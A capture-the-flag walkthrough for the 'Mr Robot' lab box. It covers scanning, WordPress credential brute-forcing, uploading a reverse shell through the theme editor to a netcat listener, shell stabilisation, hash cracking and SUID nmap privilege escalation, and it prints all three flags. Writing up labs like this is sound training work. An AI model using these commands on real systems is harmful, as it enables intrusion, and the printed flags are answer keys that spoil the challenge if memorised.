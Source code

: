 # Mr Robot CTF

> Based on the Mr. Robot show, can you root this box?

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 10.10.32.6`
	- `sudo nmap -T4 -A -p 22,80,443 10.10.32.6`
2. enumerate port 80:
	- go to website 
	- run gobuster: `gobuster dir -u http://10.10.35.131/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,bak,conf,txt,js`
	- check "robots.txt":
		- found "fsociety.dic" -- save with: `wget http://10.10.35.131/fsocity.dic`
		- found "key-1-of-3.txt"
		- key 1 = **073403c8a58a1f80d943455fb30724b9**
	- run against wpscan: `wpscan --url http://10.10.35.131`
		- found login page
		- try default credentials -- failed
	- try to brute force wordpress login on xmlrpc found and  using the dictionary found:
		- `wpcan --url http://10.10.35.131 -U admin,elliot -P fsociety.dic`
	- found on "http://10.10.35.131/license" page a base64 encrypted word:
		- decrypt it: `echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d` 
		- found credentials: "elliot:ER28-0652"
	- login to wordpress:
		- credentials worked
	- upload reverse shell: 
		- go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a [PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
		- setup a netcat listener: `nc -lvnp`
		- then call the template: `http://10.10.35.131/wp-content/themes/twentyfifteen/404.php`
	3. post-exploitation:
		- stabilise shell: `python -c 'import pty;pty.spawn("/bin/sh")'` -> `export TERM=xterm` -> [Ctrl-Z] -> `stty raw -echo; fg`
		- found "password.raw-md5" in "/home/robot" directory 
			- contains: "robot:c3fcd3d76192e4007dfb496cca67e13b"
		- cracked hash = abcdefghijklmnopqrstuvwxyz
		- login to robot account: `su robot` -> [password]
		- read "key-2-of-3.txt":
			- key 2 = **822c73956184f694993bede3eb39f959**
	4. esclate privileges:
		- check for SUID/SGID binaries:
			- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
			- found nmap 
		- exploit nmap:
			- `nmap --interactive` -> `!sh`
		- get last key:
			- `cat /root/key-3-of-3.txt`
			- flag 3 = **04787ddef27c3dee1ee161b21670b4e4**